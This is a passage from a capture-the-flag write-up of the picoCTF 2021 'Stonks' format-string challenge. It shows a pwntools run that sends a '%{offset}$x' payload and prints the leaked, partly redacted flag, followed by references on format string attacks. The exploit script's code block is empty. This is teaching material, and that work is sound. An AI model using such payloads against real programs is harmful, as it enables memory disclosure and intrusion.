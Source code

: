 ```python
```

We start retrieving data until we come upon a chuck with the `}` character in and assume that is the end of the flag.

Finally, we run the script
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks/get_flag.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"What is your API token?\n", f"%{offset}$x")
b'picoCTF{I_l05t_<REDACTED>}\x00\x8a\xff'
```

And there we have the flag (with some additional bytes at the end).

For additional information, please see the references below.

## References

- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
- [OWASP - Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)
- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
